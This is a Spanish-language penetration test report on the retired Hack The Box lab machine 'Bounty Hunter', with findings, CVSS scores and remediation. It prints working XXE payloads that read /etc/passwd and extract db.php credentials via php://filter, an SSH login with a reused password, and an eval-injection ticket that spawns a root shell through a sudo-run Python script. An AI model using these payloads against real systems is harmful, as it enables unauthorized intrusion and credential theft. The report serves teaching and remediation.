



# Informe de Prueba de Penetración — Bounty Hunter

|                        |                                                                  |
| ---------------------- | ---------------------------------------------------------------- |
| **ID de informe**      | HO-0012-00                                                       |
| **Objetivo**           | Bounty Hunter (`10.129.95.166`)                                  |
| **Plataforma**         | Hack The Box — máquina retirada                                  |
| **Tipo de prueba**     | Caja negra (black box)                                           |
| **Fecha de ejecución** | 2026-10-22                                                       |
| **Autor**              | Francisco Nieto — [@NiettoFrann](https://github.com/NiettoFrann) |
| **Versión**            | 1.0                                                              |
| **Clasificación**      | Público — uso educativo                                          |

> **Aviso legal.** Las pruebas se realizaron sobre un entorno de laboratorio autorizado
> (Hack The Box) y sobre una máquina retirada. Ninguna técnica descrita debe aplicarse
> sobre sistemas sin autorización expresa por escrito de su propietario.

### Control de versiones

| Versión | Fecha      | Descripción     |
| ------- | ---------- | --------------- |
| 1.0     | 2026-10-22 | Versión inicial |

---

## Índice

1. [Resumen ejecutivo](#1-resumen-ejecutivo)
2. [Alcance y metodología](#2-alcance-y-metodología)
3. [Narrativa del ataque](#3-narrativa-del-ataque)
4. [Hallazgos técnicos](#4-hallazgos-técnicos)
5. [Post-explotación](#5-post-explotación)
6. [Conclusiones](#6-conclusiones)
7. [Anexos](#7-anexos)

---

## 1. Resumen ejecutivo

### 1.1 Objetivo

Evaluar la seguridad del host **Bounty Hunter** simulando un atacante externo sin
credenciales ni conocimiento previo del entorno, para obtener el máximo nivel de
privilegios posible.

### 1.2 Resultado

> Se obtuvo control total del servidor, incluida la cuenta de administrador, partiendo de
> una aplicación web pública sin autenticación. Un formulario de reporte de errores
> procesaba los datos enviados sin las debidas protecciones, lo que permitió a un atacante
> leer archivos internos del servidor, entre ellos uno que guardaba una contraseña sin
> cifrar. Esa misma contraseña servía para iniciar sesión remota en el sistema. Una vez
> dentro, una tarea que la máquina permitía ejecutar con privilegios de administrador
> contenía un error de programación que posibilitó tomar el control completo del equipo.
> Un atacante real podría robar, alterar o destruir toda la información alojada en el host.

**Nivel de riesgo global:** `ALTO`

### 1.3 Distribución de hallazgos

| Crítica | Alta | Media | Baja | Informativa |
| :-----: | :--: | :---: | :--: | :---------: |
|    0    |  2   |   1   |  0   |      0      |

### 1.4 Resumen de hallazgos

| ID                                                                                                    | Hallazgo                                                                         | Severidad | CVSS |
| ----------------------------------------------------------------------------------------------------- | -------------------------------------------------------------------------------- | --------- | ---- |
| [HO-0012-03](#ho-0012-03--escalada-de-privilegios-por-inyección-en-eval-de-script-ejecutado-vía-sudo) | Escalada de privilegios por inyección en `eval()` de script ejecutado vía `sudo` | Alta      | 7.8  |
| [HO-0012-01](#ho-0012-01--inyección-de-entidades-externas-xml-xxe-en-el-formulario-de-reportes)       | Inyección de entidades externas XML (XXE) en el formulario de reportes           | Alta      | 7.5  |
| [HO-0012-02](#ho-0012-02--credenciales-en-texto-plano-reutilizadas-para-acceso-ssh)                   | Credenciales en texto plano reutilizadas para acceso SSH                         | Media     | 6.5  |

> HO-0012-01 se puntúa con impacto solo de confidencialidad (lectura de archivos), pero fue
> la llave de toda la cadena: permitió extraer la credencial de HO-0012-02 y, con ella, el
> acceso que habilitó HO-0012-03. Su impacto real en el compromiso es mayor al que refleja
> el CVSS aislado.

### 1.5 Recomendaciones prioritarias

1. Deshabilitar el procesamiento de entidades externas (DTD) en el parser XML del formulario de reportes.
2. Eliminar las credenciales en texto plano de `db.php` y dejar de reutilizar la contraseña de la base de datos para cuentas del sistema.
3. Reescribir `ticketValidator.py` para no usar `eval()` sobre datos de entrada y restringir el permiso `sudo` concedido a `development`.

---

## 2. Alcance y metodología

### 2.1 Alcance

| Activo        | Dirección       | Incluido |
| ------------- | --------------- | :------: |
| Bounty Hunter | `10.129.95.166` |    Sí    |

**Fuera de alcance:** ataques de denegación de servicio, infraestructura de la
plataforma y otros jugadores. No se modificaron ni destruyeron datos del sistema más
allá de lo estrictamente necesario para demostrar impacto (lectura de archivos,
obtención de una shell y lectura de las banderas).

### 2.2 Metodología

La prueba siguió las fases del estándar **PTES** (Penetration Testing Execution
Standard), apoyándose en **OWASP WSTG** para los componentes web:

1. **Reconocimiento** — descubrimiento de puertos y servicios.
2. **Enumeración** — identificación de versiones, tecnologías y superficie de ataque.
3. **Análisis de vulnerabilidades** — validación manual de posibles fallos.
4. **Explotación** — obtención de acceso inicial.
5. **Post-explotación** — escalada de privilegios y movimiento lateral.
6. **Reporte** — documentación de hallazgos y recomendaciones.

### 2.3 Entorno del auditor

| Componente   | Detalle                                                   |
| ------------ | --------------------------------------------------------- |
| Sistema      | Linux (kernel 7.2.11-zen1-1-zen)                          |
| Conexión     | VPN de Hack The Box                                       |
| Herramientas | nmap 7.992, gobuster 3.8.2, Burp Suite, curl, base64, ssh |

### 2.4 Clasificación de severidad

Las vulnerabilidades se puntúan con **CVSS v3.1** (ver tabla de criterios estándar).

---

## 3. Narrativa del ataque

### 3.1 Cadena de compromiso



### 3.2 Reconocimiento

Comprobación de conectividad con el objetivo:

```bash
ping -c 1 10.129.95.166
```

El TTL observado (`ttl=63`) es coherente con un sistema **Linux** (valor base 64,
decrementado por un salto de red).

Descubrimiento de puertos abiertos y detección de servicios/versiones:

```bash
nmap -p- --min-rate=5000 -T4 -Pn -n 10.129.95.166 -oN loot/puertos.txt
nmap -p22,80 -sVC -Pn -n -T4 10.129.95.166 -oN loot/detallado.txt
```

| Puerto    | Servicio | Versión                         | Observaciones                                                    |
| --------- | -------- | ------------------------------- | ---------------------------------------------------------------- |
| 22/tcp    | SSH      | OpenSSH 8.2p1 Ubuntu 4ubuntu0.2 | Vector de acceso tras obtener credenciales.                      |
| 80/tcp    | HTTP     | Apache httpd 2.4.41 (Ubuntu)    | Aplicación web «Bounty Hunters»; principal superficie de ataque. |
| 19843/tcp | unknown  | —                               | Reportado como `filtered`; no explotable sin más contexto.       |

> Salida completa en el [Anexo A](#a-salida-completa-de-escaneos).

### 3.3 Enumeración

El servicio web presenta el sitio «Bounty Hunters» sobre Apache. Se realizó
_fuzzing_ de contenido para mapear la superficie de ataque:

```bash
gobuster dir -u http://10.129.95.166 \
  -w /usr/share/seclists/Discovery/Web-Content/DirBuster-2007_directory-list-2.3-medium.txt \
  -x php -t 100
```

El escaneo reveló los siguientes recursos relevantes:

| Recurso                                |     Estado     | Observación                                                                              |
| -------------------------------------- | :------------: | ---------------------------------------------------------------------------------------- |
| `index.php`                            |      200       | Página principal.                                                                        |
| `portal.php`                           |      200       | Enlaza al formulario de reporte de errores.                                              |
| `log_submit.php`                       |      200       | Formulario que recibe y procesa reportes en formato XML.                                 |
| `db.php`                               | 200 (tamaño 0) | No devuelve contenido por HTTP, pero existe en disco; candidato a contener credenciales. |
| `resources/`, `assets/`, `css/`, `js/` |      301       | Recursos estáticos de la aplicación.                                                     |

Desde `portal.php` se accede a `log_submit.php`, un formulario de «bug report» que, al
enviarse, transmite los campos del reporte como un documento **XML** al servidor. Un
formulario que parsea XML del lado del servidor es un candidato inmediato a **XXE**, por lo
que se orientó la prueba a esa técnica. Ver
**[HO-0012-01](#ho-0012-01--inyección-de-entidades-externas-xml-xxe-en-el-formulario-de-reportes)**.

<p align="center">
  
  <br>
  <em>Figura 1 — Formulario de reporte de errores (<code>log_submit.php</code>).</em>
</p>

### 3.4 Acceso inicial

Mediante la XXE se leyó primero `/etc/passwd` (confirmando la lectura arbitraria de
archivos y enumerando usuarios del sistema, entre ellos `development`) y luego el código
fuente de `db.php` con el envoltorio `php://filter`, obteniendo las credenciales de la base
de datos en texto plano. Ver
**[HO-0012-01](#ho-0012-01--inyección-de-entidades-externas-xml-xxe-en-el-formulario-de-reportes)**.

### 3.5 Movimiento lateral

La contraseña de la base de datos extraída de `db.php` resultó estar reutilizada como
contraseña del usuario del sistema `development` (identificado en `/etc/passwd`), lo que
permitió iniciar sesión por SSH. Ver
**[HO-0012-02](#ho-0012-02--credenciales-en-texto-plano-reutilizadas-para-acceso-ssh)**.

```bash
ssh development@10.129.95.166
# contraseña: m19RoAU0************ (reutilizada desde db.php)
cat user.txt   # a21e75c0************************
```

### 3.6 Escalada de privilegios

La cuenta `development` podía ejecutar, sin contraseña y como `root`, un script Python que
evaluaba parte del contenido de un archivo de «ticket» mediante `eval()`. Se abusó de esa
evaluación para obtener una shell como `root`. Ver
**[HO-0012-03](#ho-0012-03--escalada-de-privilegios-por-inyección-en-eval-de-script-ejecutado-vía-sudo)**.

---

## 4. Hallazgos técnicos

### HO-0012-01 — Inyección de entidades externas XML (XXE) en el formulario de reportes

|                         |                                                                                                                    |
| ----------------------- | ------------------------------------------------------------------------------------------------------------------ |
| **Severidad**           | Alta                                                                                                               |
| **CVSS v3.1**           | 7.5 — `CVSS:3.1/AV:N/AC:L/PR:N/UI:N/S:U/C:H/I:N/A:N`                                                               |
| **CWE**                 | [CWE-611](https://cwe.mitre.org/data/definitions/611.html) — Improper Restriction of XML External Entity Reference |
| **CVE**                 | —                                                                                                                  |
| **Componente afectado** | `http://10.129.95.166/log_submit.php` — procesamiento XML del reporte                                              |
| **Estado**              | Explotada                                                                                                          |

#### Descripción

El formulario de reporte de errores (`log_submit.php`) recibe los campos del reporte como
un documento XML y lo procesa en el servidor con un parser que permite la declaración y
resolución de **entidades externas** (DTD). Al no deshabilitar esa funcionalidad, un
atacante puede declarar una entidad que apunte a recursos locales del servidor y lograr que
su contenido se refleje en la respuesta. La causa raíz es un parser XML inseguro por
defecto que no restringe referencias a entidades externas.

#### Prueba de concepto

**Paso 1.** Interceptando el envío del formulario con Burp Suite, se inyecta una entidad
externa que apunta a `/etc/passwd` para confirmar la vulnerabilidad:

```xml
<?xml version="1.0" encoding="ISO-8859-1"?>
<!DOCTYPE foo [<!ENTITY file SYSTEM "file:///etc/passwd">]>
<bugreport>
    <title>&file;</title>
    <cwe>CWE</cwe>
    <cvss>CVSS</cvss>
    <reward>Reward</reward>
</bugreport>
```

La respuesta devuelve el contenido de `/etc/passwd`, confirmando la lectura arbitraria de
archivos y revelando la existencia del usuario `development`.

**Paso 2.** Como el objetivo `db.php` contiene código PHP (que el parser no reflejaría de
forma legible), se emplea el envoltorio `php://filter` para codificarlo en base64 antes de
incrustarlo en la entidad:

```xml
<?xml version="1.0" encoding="ISO-8859-1"?>
<!DOCTYPE foo [<!ENTITY file SYSTEM "php://filter/read=convert.base64-encode/resource=/var/www/html/db.php">]>
<bugreport>
    <title>&file;</title>
    <cwe>CWE</cwe>
    <cvss>CVSS</cvss>
    <reward>Reward</reward>
</bugreport>
```

**Paso 3.** La cadena base64 devuelta se decodifica localmente:

```bash
echo "<cadena-base64>" | base64 -d
```

Revelando las credenciales de la base de datos en texto plano:

```php
$dbserver   = "localhost";
$dbname     = "bounty";
$dbusername = "admin";
$dbpassword = "m19RoAU0************";
$testuser   = "test";
```

<div align='center'>
<p align="center">
  
  <br>
  <em>Figura 2 — Lectura de <code>db.php</code> vía XXE con <code>php://filter</code>.</em>
</p>
</div>

#### Impacto

Cualquier persona con acceso de red, sin autenticación, puede leer archivos arbitrarios del
sistema con los permisos del proceso web. En este caso permitió obtener credenciales en
texto plano que, al estar reutilizadas, habilitaron el acceso interactivo al sistema
(HO-0012-02). Un parser que resuelve entidades externas puede además habilitar SSRF y, en
ciertos casos, denegación de servicio.

#### Remediación

- **Corto plazo:** deshabilitar la resolución de entidades externas en el parser (p. ej. en PHP con `libxml_disable_entity_loader(true)` en versiones previas a 8.0, o no habilitar `LIBXML_NOENT`).
- **Largo plazo:** validar y aceptar únicamente el esquema XML esperado, rechazar documentos con declaración `DOCTYPE`/DTD y, cuando sea viable, sustituir el intercambio por un formato sin entidades (JSON).

#### Referencias

- [CWE-611 — Improper Restriction of XML External Entity Reference](https://cwe.mitre.org/data/definitions/611.html)
- [OWASP — XML External Entity (XXE) Processing](<https://owasp.org/www-community/vulnerabilities/XML_External_Entity_(XXE)_Processing>)

---

### HO-0012-02 — Credenciales en texto plano reutilizadas para acceso SSH

|                         |                                                                                                                                                                                                      |
| ----------------------- | ---------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------- |
| **Severidad**           | Media                                                                                                                                                                                                |
| **CVSS v3.1**           | 6.5 — `CVSS:3.1/AV:N/AC:L/PR:N/UI:N/S:U/C:L/I:L/A:N`                                                                                                                                                 |
| **CWE**                 | [CWE-798](https://cwe.mitre.org/data/definitions/798.html) — Use of Hard-coded Credentials / [CWE-521](https://cwe.mitre.org/data/definitions/521.html) — Weak Password Requirements (reutilización) |
| **CVE**                 | —                                                                                                                                                                                                    |
| **Componente afectado** | `/var/www/html/db.php` + cuenta del sistema `development`                                                                                                                                            |
| **Estado**              | Explotada                                                                                                                                                                                            |

#### Descripción

El archivo `db.php` almacena las credenciales de la base de datos en texto plano. Además, la
contraseña definida para la base de datos (`m19RoAU0************`) está **reutilizada** como
contraseña del usuario del sistema `development`. La combinación de almacenamiento en claro
y reutilización convierte una lectura de archivo (HO-0012-01) en acceso interactivo al
sistema operativo.

#### Prueba de concepto

Con el usuario `development` descubierto en `/etc/passwd` y la contraseña extraída de
`db.php`, se inicia sesión por SSH:

```bash
ssh development@10.129.95.166
# contraseña: m19RoAU0************
development@bountyhunter:~$ cat user.txt
a21e75c0************************
```

#### Impacto

Un atacante que logra leer `db.php` obtiene una credencial válida para la cuenta
`development`, estableciendo una sesión SSH legítima y persistente en el sistema. A partir
de ahí dispone de un punto de apoyo local desde el cual continuar la enumeración y la
escalada de privilegios.

#### Remediación

- **Corto plazo:** rotar la contraseña expuesta y asignar a la base de datos una contraseña única, distinta de la de cualquier cuenta del sistema.
- **Largo plazo:** no almacenar secretos en el código fuente; usar variables de entorno o un gestor de secretos, y aplicar una política que prohíba la reutilización de contraseñas entre servicios y cuentas.

#### Referencias

- [CWE-798 — Use of Hard-coded Credentials](https://cwe.mitre.org/data/definitions/798.html)
- [CWE-521 — Weak Password Requirements](https://cwe.mitre.org/data/definitions/521.html)

---

### HO-0012-03 — Escalada de privilegios por inyección en `eval()` de script ejecutado vía `sudo`

|                         |                                                                                                                                                 |
| ----------------------- | ----------------------------------------------------------------------------------------------------------------------------------------------- |
| **Severidad**           | Alta                                                                                                                                            |
| **CVSS v3.1**           | 7.8 — `CVSS:3.1/AV:L/AC:L/PR:L/UI:N/S:U/C:H/I:H/A:H`                                                                                            |
| **CWE**                 | [CWE-95](https://cwe.mitre.org/data/definitions/95.html) — Improper Neutralization of Directives in Dynamically Evaluated Code (Eval Injection) |
| **CVE**                 | —                                                                                                                                               |
| **Componente afectado** | `/opt/skytrain_inc/ticketValidator.py` ejecutado como `root` vía `sudo`                                                                         |
| **Estado**              | Explotada                                                                                                                                       |

#### Descripción

El usuario `development` tiene concedido en `sudo` ejecutar como `root`, sin contraseña, el
script `ticketValidator.py`. Dicho script lee un archivo de «ticket» en formato Markdown y,
para la línea del código de validación, invoca `eval()` sobre contenido tomado
directamente del archivo controlado por el usuario. Al evaluar como código Python una cadena
atacante, se logra ejecución arbitraria con privilegios de `root`. La causa raíz es el uso
de `eval()` sobre datos de entrada no confiables.

```python
# fragmento de /opt/skytrain_inc/ticketValidator.py
ticketCode = x.replace("**", "").split("+")[0]
if int(ticketCode) % 7 == 4:
    validationNumber = eval(x.replace("**", ""))
```

#### Prueba de concepto

**Paso 1.** Se confirma el permiso `sudo`:

```bash
sudo -l
# (root) NOPASSWD: /usr/bin/python3.8 /opt/skytrain_inc/ticketValidator.py
```

**Paso 2.** Se construye un ticket `.md` que respeta la estructura esperada por el script.
El código de validación debe cumplir `int(ticketCode) % 7 == 4` (se usa `11`, ya que
`11 % 7 == 4`) y, tras ese número, se inyecta una llamada que lanza una shell:

```markdown
# Skytrain Inc

## Ticket to root

**Ticket Code:**
**11 + **import**('os').system('/bin/bash')**
```

> La línea `11 + __import__('os').system('/bin/bash')` es evaluada por `eval()`: primero
> satisface la comprobación del módulo 7 y luego ejecuta `os.system('/bin/bash')` con el
> contexto de `root`.

**Paso 3.** Se ejecuta el validador con `sudo` apuntando al ticket malicioso:

```bash
sudo /usr/bin/python3.8 /opt/skytrain_inc/ticketValidator.py
Please enter the path to the ticket file.
/tmp/pwn.md
Destination: root
root@bountyhunter:/tmp# id
uid=0(root) gid=0(root) groups=0(root)
root@bountyhunter:/tmp# cat /root/root.txt
99dd1d3d************************
```

#### Impacto

Un usuario local con el permiso `sudo` descrito obtiene ejecución de código arbitrario como
`root`, es decir, compromiso total del sistema: lectura, modificación y destrucción de
cualquier dato, así como persistencia.

#### Remediación

- **Corto plazo:** retirar el permiso `sudo` concedido a `development` sobre `ticketValidator.py` hasta corregir el script.
- **Largo plazo:** reescribir la validación sin `eval()` (p. ej. parsear el número con `int()` y validar la aritmética de forma controlada), y aplicar el principio de mínimo privilegio en `sudoers`.

#### Referencias

- [CWE-95 — Eval Injection](https://cwe.mitre.org/data/definitions/95.html)
- [GTFOBins — python (sudo)](https://gtfobins.github.io/gtfobins/python/#sudo)

---

## 5. Post-explotación

### 5.1 Acceso obtenido

| Nivel         | Usuario       | Método                  | Prueba                                          |
| ------------- | ------------- | ----------------------- | ----------------------------------------------- |
| Usuario       | `development` | HO-0012-01 + HO-0012-02 | `user.txt` — `a21e75c0************************` |
| Administrador | `root`        | HO-0012-03              | `root.txt` — `99dd1d3d************************` |

> Las credenciales y banderas se muestran parcialmente censuradas.

### 5.2 Información sensible expuesta

| Tipo                   | Ubicación                                     | Observación                                                |
| ---------------------- | --------------------------------------------- | ---------------------------------------------------------- |
| Credenciales de BD     | `/var/www/html/db.php`                        | Usuario `admin`, contraseña en texto plano, base `bounty`. |
| Contraseña reutilizada | `/var/www/html/db.php` → cuenta `development` | La misma contraseña sirve para la BD y para el acceso SSH. |
| Usuarios del sistema   | `/etc/passwd` (vía XXE)                       | Reveló la cuenta `development`.                            |

### 5.3 Limpieza

| Artefacto        | Ubicación     | Estado                              |
| ---------------- | ------------- | ----------------------------------- |
| Ticket malicioso | `/tmp/pwn.md` | ⚠️ PENDIENTE: confirmar eliminación |

---

## 6. Conclusiones

### 6.1 Conclusión técnica

El compromiso total del host fue consecuencia de tres debilidades encadenadas, ninguna de
ellas aislada de impacto crítico pero que, combinadas, derivaron en acceso `root`. La
validación de entrada deficiente en el formulario de reportes (parser XML con entidades
externas habilitadas) permitió leer archivos arbitrarios; una mala gestión de secretos
(credenciales en texto plano y reutilización de contraseña) convirtió esa lectura en acceso
interactivo al sistema; y un uso inseguro de `eval()` en un script privilegiado por `sudo`,
sumado a una regla de `sudoers` demasiado permisiva, permitió la escalada final. El patrón
de fondo es la falta de validación de entradas y la ausencia del principio de mínimo
privilegio en cada capa.

### 6.2 Aprendizajes del auditor

- Técnica aplicada: explotación de XXE para lectura de archivos y uso del envoltorio `php://filter` para exfiltrar código fuente PHP que, de otro modo, no sería legible en la respuesta.
- Punto clave de la escalada: analizar la lógica del script (`int(ticketCode) % 7 == 4`) para construir un payload que superara la validación **antes** de disparar el `eval()`; un payload que no cumpliera la aritmética nunca llegaría a evaluarse.
- A mejorar: capturar evidencia gráfica (capturas de Burp y de la shell de `root`) durante la sesión, pendiente de adjuntar en este informe.

---

## 7. Anexos

### A. Salida completa de escaneos

<details>
<summary>nmap — descubrimiento de puertos</summary>

```text
# Nmap 7.992 scan initiated Thu Oct 22 11:38:00 2026 as: nmap -p- --min-rate=5000 -T4 -Pn -n -oN loot/puertos.txt 10.129.95.166
Warning: 10.129.95.166 giving up on port because retransmission cap hit (6).
Nmap scan report for 10.129.95.166
Host is up (0.18s latency).
Not shown: 65532 closed tcp ports (conn-refused)
PORT      STATE    SERVICE
22/tcp    open     ssh
80/tcp    open     http
19843/tcp filtered unknown

# Nmap done at Thu Oct 22 11:38:18 2026 -- 1 IP address (1 host up) scanned in 17.31 seconds
```

</details>

<details>
<summary>nmap — detección de servicios y versiones</summary>

```text
# Nmap 7.992 scan initiated Thu Oct 22 11:39:25 2026 as: nmap -p22,80 -sVC -Pn -n -T4 -oN loot/detallado.txt 10.129.95.166
Nmap scan report for 10.129.95.166
Host is up (0.18s latency).

PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 8.2p1 Ubuntu 4ubuntu0.2 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey:
|   3072 d4:4c:f5:79:9a:79:a3:b0:f1:66:25:52:c9:53:1f:e1 (RSA)
|   256 a2:1e:67:61:8d:2f:7a:37:a7:ba:3b:51:08:e8:89:a6 (ECDSA)
|_  256 a5:75:16:d9:69:58:50:4a:14:11:7a:42:c1:b6:23:44 (ED25519)
80/tcp open  http    Apache httpd 2.4.41 ((Ubuntu))
|_http-title: Bounty Hunters
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

# Nmap done at Thu Oct 22 11:39:48 2026 -- 1 IP address (1 host up) scanned in 22.84 seconds
```

</details>

<details>
<summary>gobuster — enumeración de contenido web</summary>

```text
resources   (Status: 301) [Size: 318] [--> http://10.129.95.166/resources/]
assets      (Status: 301) [Size: 315] [--> http://10.129.95.166/assets/]
index.php   (Status: 200) [Size: 25169]
portal.php  (Status: 200) [Size: 125]
css         (Status: 301) [Size: 312] [--> http://10.129.95.166/css/]
db.php      (Status: 200) [Size: 0]
js          (Status: 301) [Size: 311] [--> http://10.129.95.166/js/]
```

</details>

### B. Scripts y exploits

<details>
<summary>xxe-dbphp.xml — lectura de db.php vía XXE + php://filter</summary>

```xml
<?xml version="1.0" encoding="ISO-8859-1"?>
<!DOCTYPE foo [<!ENTITY file SYSTEM "php://filter/read=convert.base64-encode/resource=/var/www/html/db.php">]>
<bugreport>
    <title>&file;</title>
    <cwe>CWE</cwe>
    <cvss>CVSS</cvss>
    <reward>Reward</reward>
</bugreport>
```

</details>

<details>
<summary>pwn.md — ticket malicioso para la escalada vía eval()</summary>

```markdown
# Skytrain Inc

## Ticket to root

**Ticket Code:**
**11 + **import**('os').system('/bin/bash')**
```

</details>

### C. Mapeo MITRE ATT&CK

| Táctica                        | Técnica                                                  | ID                                                          |
| ------------------------------ | -------------------------------------------------------- | ----------------------------------------------------------- |
| Initial Access                 | Exploit Public-Facing Application                        | [T1190](https://attack.mitre.org/techniques/T1190/)         |
| Credential Access              | Unsecured Credentials: Credentials In Files              | [T1552.001](https://attack.mitre.org/techniques/T1552/001/) |
| Lateral Movement / Persistence | Valid Accounts                                           | [T1078](https://attack.mitre.org/techniques/T1078/)         |
| Privilege Escalation           | Abuse Elevation Control Mechanism: Sudo and Sudo Caching | [T1548.003](https://attack.mitre.org/techniques/T1548/003/) |

### D. Referencias generales

- [PTES — Penetration Testing Execution Standard](http://www.pentest-standard.org/)
- [OWASP Web Security Testing Guide](https://owasp.org/www-project-web-security-testing-guide/)
- [Calculadora CVSS v3.1 — FIRST](https://www.first.org/cvss/calculator/3.1)
- [MITRE ATT&CK](https://attack.mitre.org/)
